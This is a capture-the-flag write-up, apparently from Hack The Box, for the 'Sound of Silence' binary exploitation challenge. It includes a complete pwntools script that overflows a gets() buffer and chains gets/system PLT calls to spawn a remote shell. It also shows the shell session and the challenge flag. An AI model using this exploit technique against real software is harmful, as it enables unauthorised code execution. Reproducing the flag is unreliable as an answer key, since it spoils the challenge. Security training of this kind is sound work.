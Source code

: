 # Sound of Silence

Navigate the shadows in a dimly lit room, silently evading detection as you strategize to outsmart your foes. Employ clever distractions to divert their attention, paving the way for your daring escape!

## Writeup

This is the main function:

```c
void main(void)

{
  char buffer [32];
  
  system("clear && echo -n \'~The Sound of Silence is mesmerising~\n\n>> \'");
  gets(buffer);
  return;
}
```

The buffer is 32 byte long plus the 8 byte of **saved rbp** as **offset**.

We can use the **system** and the **gets** function of **plt** to make the binary exploitation.

The first payload will be:

```
b'A' * offset
ret
gets_plt
ret
system_plt
```

The second payload will send only the **/bin/sh** string that the **gets** will write it in **rdi**:

```
b'/bin0sh\00'
```

Write a **0** and not a **/** because the **gets** function subtract it by **1**, so **0** is the ascii character next to **/**.

The final exploit will be:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 83.136.252.62 --port 50765 sound_of_silence
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'sound_of_silence')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or '94.237.62.117'
port = int(args.PORT or 41321)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)
# RUNPATH:  b'./glibc/'

io = start()

main = exe.symbols['main']

system_plt = exe.plt['system']
gets_plt = exe.plt['gets']

rop = ROP(exe)
ret = rop.find_gadget(['ret'])[0]

offset = 32 + 8

payload = [
    b'A' * offset,
    p64(ret),
    p64(gets_plt),
    p64(ret),
    p64(system_plt) 
]

payload = b''.join(payload)

io.sendlineafter(b'>>', payload)

payload = [
    b'/bin0sh\00'
]

payload = b''.join(payload)

io.sendlineafter(b' ', payload)

io.interactive()
```

The flag is:

```bash
$ id
uid=100(ctf) gid=101(ctf) groups=101(ctf)
$ ls
flag.txt
glibc
sound_of_silence
$ cat flag.txt
HTB{n0_n33d_4_l34k5_wh3n_u_h4v3_5y5t3m}
```